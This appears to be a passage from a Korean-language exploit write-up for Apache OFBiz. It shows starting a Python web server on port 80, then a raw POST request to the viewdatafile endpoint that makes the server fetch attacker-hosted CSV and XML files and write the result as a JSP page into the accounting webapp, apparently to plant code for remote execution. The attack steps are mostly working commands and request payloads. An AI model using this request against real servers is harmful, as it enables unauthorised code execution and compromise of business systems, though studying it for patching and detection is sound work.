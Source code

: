 이후 python 을 이용하여 해당 경로를 80포트로 리스닝하는 웹 서버를 실행합니다.

```xml
python -m http.server 80
```

![images](./images/image-009.png)

## viewdatafile 요청

이후 다음의 요청 패킷을 Apache OFBiz 프레임워크 18.14.15 버전에 요청을 수행합니다.

```xml
POST /webtools/control/main/viewdatafile HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded
Content-Length: 241

DATAFILE_LOCATION=http://<서버주소>:80/test.csv&DATAFILE_SAVE=./applications/accounting/webapp/accounting/index.jsp&DATAFILE_IS_URL=true&DEFINITION_LOCATION=http://<서버주소>:80/test.xml&DEFINITION_IS_URL=true&DEFINITION_NAME=rce
```

![images](./images/image-010.png)

